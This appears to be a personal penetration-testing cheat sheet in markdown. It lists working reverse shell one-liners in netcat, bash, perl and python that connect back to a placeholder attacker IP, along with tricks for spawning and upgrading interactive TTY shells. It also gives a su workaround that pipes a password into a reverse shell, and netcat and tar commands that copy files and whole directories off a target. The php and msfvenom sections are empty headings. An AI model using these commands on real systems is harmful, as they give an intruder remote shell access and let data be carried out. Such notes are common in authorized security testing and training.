 # common go-tos

- [shells](#shells)
  * [reverse shells](#reverse-shells)
    + [netcat](#netcat)
    + [bash](#bash)
    + [perl](#perl)
    + [python](#python)
    + [php](#php)
    + [msfvenom](#msfvenom)
  * [spawning tty shells](#spawning-shells)
    + [python](#python)
    + [bash/sh](#bash/sh)
    + [perl](#perl)
    + [text editors](#within-text-editors)
      - [vi](#vi)
    + [nmap](#nmap)
    + [script](#script)
  * [making fully-interactive shells](#making-them-fully-interactive)
    + [working around spawning issues](#spawn-workarounds)
- [file transfers](#file-transfers)
  * [wget](#wget)
  * [netcat](#netcat)
    + [files](#SENDING-FILES-BETWEEN-SYSTEMS)
    + [directories](#SENDING-WHOLE-DIRECTORIES)

---
## shells
---
### reverse shells
---

### netcat

<small>sending:</small>
```
nc -e /bin/sh [LOCAL IP] [PORT]
```

<small>catching:</small>
```
nc -lvp [PORT]
```

### bash

```
bash -i >& /dev/tcp/[LOCAL IP]/[PORT] 0>&1
```

### perl

```
perl -e 'use Socket;$i="[LOCAL IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LOCAL IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php

### msfvenom



----
### spawning shells
----

#### **python**

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### **bash/sh**
```
/bin/sh -i
```
```
echo os.system('/bin/bash')
```

#### **perl**
```
perl -e 'exec "/bin/sh";'
```

#### **within text editors**:

##### _vi_:
```
:!bash
```
```
:set shell=/bin/bash:shell
```

#### **nmap**:
```
!sh
```

#### **script**

```
## this method can potentially avoid needing to do all the stty/fg/bg work below
/usr/bin/script -qc /bin/bash /dev/null
```

----
### making them fully interactive
----

when getting a reverse shell through `netcat`, by default it's non-interactive - meaning it's a pain. once you run any of the above scripts to get a partially interactive shell, you can do a few more things to optimize:

_non-interactive shell_:
```
## get partially interactive shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

_remote shell_:
```
## background process netcat in the remote shell
user@remote:$ ^Z
```
_local env_:
```
## get rows/cols values from your current env
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'

## so you can pass keyboard shortcuts, bring netcat back to the foreground 
user@local:~$ stty raw -echo; fg
```
<small>**[ZSH NOTE]**: zsh, specifically, only respects the -echo until the next prompt which means that you need to type your next command all in one line</small>

_remote env_:
```
## set the correct sizes for the remote shell
user@remote:~$ stty rows [ROWS] cols [COLS]

## export shell to ENV
export SHELL=/bin/bash

## enable colors
user@remote:~$ export TERM=xterm-256color

## reload shell to apply the TERM variable
user@remote:~$ reset 
OR
user@remote:~$ exec /bin/bash
```

#### spawn workarounds

_for non-responsive shell spawning when you need to change users_

first start a listening on your local host machine:

```
nc -nlvp [PORT]
```

then, from the remote/target machine:

```
echo "[PASSWORD]" | su - [USER] -c "bas -i >& /dev/tcp/[LOCAL IP]/[PORT] 0>&1"
```

---
## file transfers
---

### wget

**usecase**: fetch files/scripts from your local machine on the remote host

_sender_:
```
cd souce_directory
python -m http.server 
```

_'receiver' (more accurately, a fetcher here)_:
```
## python http server always starts by default at port 8000
## unless otherwise specified
wget http://[LOCAL IP]:8000/[FILE YOU WANT]
```

### netcat

##### SENDING FILES BETWEEN SYSTEMS

_receiver_:

start a listener and provide the name you want to give the sent file

```
nc -l -p [PORT] > [FILENAME]
```

_sender_:
```
nc -w 3 [RECEIVER IP] [PORT] < [FILENAME]
```

##### SENDING WHOLE DIRECTORIES

_receiver_:

maybe first create a separate directory if you want one, since this is going to send multiple files, then `cd` into it and start a `netcat` listener

```
nc -l -p [PORT] | tar xf -
```

_sender_:

```
cd source_directory
tar cf - . | nc [RECEIVER IP] [PORT]
```